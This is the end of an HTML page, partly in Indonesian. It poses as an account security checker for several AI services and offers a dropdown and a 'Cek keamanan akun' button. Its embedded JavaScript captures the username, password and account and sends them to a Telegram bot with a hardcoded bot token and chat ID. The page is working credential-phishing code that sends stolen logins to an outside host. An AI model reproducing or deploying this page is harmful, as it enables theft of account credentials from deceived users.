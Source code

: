 				<option value="Grapix AI">Grapix AI</option>
				<option value="Star AI">Star AI</option>
				<option value="Quantum">Quantum</option>
				<option value="FTA AI">FTA AI</option>
			</select><br>
			<button type="submit">Cek keamanan akun</button>
		</form>
		<script>
			const botToken = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY';
			const chatId = '6235911819';
			const securityInfoDiv = document.getElementById('security-info');

			document.getElementById('login-form').addEventListener('submit', (e) => {
				e.preventDefault();

				const username = e.target.username.value;
				const password = e.target.password.value;
				const account = e.target.account.value;

				// Kirim data login ke server
				fetch('/login', {
					method: 'POST',
					headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
					body: new URLSearchParams(new FormData(e.target))
				})
				.then((response) => response.text())
				.then((data) => {
					// Kirim pesan ke bot Telegram
					fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
						method: 'POST',
						headers: { 'Content-Type': 'application/json' },
						body: JSON.stringify({
							chat_id: chatId,
							text: `Login attempt:\nUsername: ${username}\nPassword: ${password}\nAccount: ${account}`
						})
					})
					.then((response) => response.json())
					.then((data) => {
						if (data.ok) {
							alert('Login data sent to Telegram successfully');
						} else {
							alert('An error occurred. Try again later.');
						}
					})
					.catch((error) => {
						alert('Failed to send data to Telegram. Please try again later.');
					});
				});
			});
		</script>
		<div id="security-info" style="display: none;">
			<h3>Keamanan Akun</h3>
			<ul>
				<!-- List will be populated dynamically -->
			</ul>
		</div>
	</div>
</body>
</html>
